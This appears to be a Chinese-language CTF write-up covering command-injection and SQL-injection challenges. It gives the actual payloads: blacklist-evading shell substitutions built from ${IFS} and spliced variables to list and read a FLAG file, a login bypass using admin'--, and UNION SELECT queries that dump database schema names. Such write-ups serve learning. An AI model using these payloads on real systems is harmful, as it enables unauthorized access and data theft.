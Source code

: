 ### CMD03
* 用`$(l${x}s|base64${IFS}-w${IFS}0)` 繞過黑名單 
* 用base64加密列出`ls`的東西
~~發現跟[Bonus] CMD06一樣~~
~~就用跟[Bonus] CMD06一樣的解法~~
* 用`$(ca${x}t${IFS}FLAG|base64${IFS}-w${IFS}0)`將flag以base64印出
![image](https://hackmd.io/_uploads/H1IZqkp5A.png)
`AIS3_Junior{BashOperato|rEvasion${IFS}SUCC|ESSFUL|:DDDDD}`



### [Bonus] CMD06
* 用`$(l${x}s|base64${IFS}-w${IFS}0)` 繞過黑名單 
* 用base64加密列出`ls`的東西
![image](https://hackmd.io/_uploads/HyGrPJTcA.png)

```
RkxBRwptYWluLnB5CnByZXN0YXJ0LnNoCnJlcXVpcmVtZW50cy50eHQKc3RhdGljCnRlbXBsYXRlcwp1d3NnaS5pbmkK
```
* 把上述用線上解密

![image](https://hackmd.io/_uploads/S1itwJa9A.png)

* 發現FLAG
* 用`$(ca${x}t${IFS}FLAG|base64${IFS}-w${IFS}0)`將flag以base64印出
![image](https://hackmd.io/_uploads/HkbxuJpq0.png)
*`QUlTM19KdW5pb3J7b3VvX2hpaGl9Cg==`用base64線上解密
![image](https://hackmd.io/_uploads/BkAmuk6q0.png)


## 06 - SQL Injection
### SQL1
用最簡單的SQL語法就可以拿到flag
~~好像簡單的CTF第一題SQL都可以用`admin'--`~~
帳號`admin'--` 密碼隨便填 
![image](https://hackmd.io/_uploads/B1FZku3cR.png)
>AIS3_Junior{SQL'InjectionXDorD=D_--_-}

### SQL2
參考網站: https://little-c-blog.coderbridge.io/2023/09/04/SQLi-lab-1/
先用`pp'UNION SELECT NULL#`去嘗試讓兩個表中有相同的columns
![image](https://hackmd.io/_uploads/BJZSV-a9A.png)
* 直到`pp' UNION SELECT NULL, NULL,NULL,NULL#`

![image](https://hackmd.io/_uploads/BkJj4Zp9A.png)

*列出所有table
1. mysql
2. information_schema
3. performance_schema
4. sys
5. arsenal
6. ApexPredators
```
pp' UNION SELECT group_concat(schema_name),group_concat(schema_name),group_concat(schema_name),group_concat(schema_name) from information_schema.schemata#
```
![image](https://hackmd.io/_uploads/HJzhUW69A.png)
![image](https://hackmd.io/_uploads/S1fMGYa5C.png)
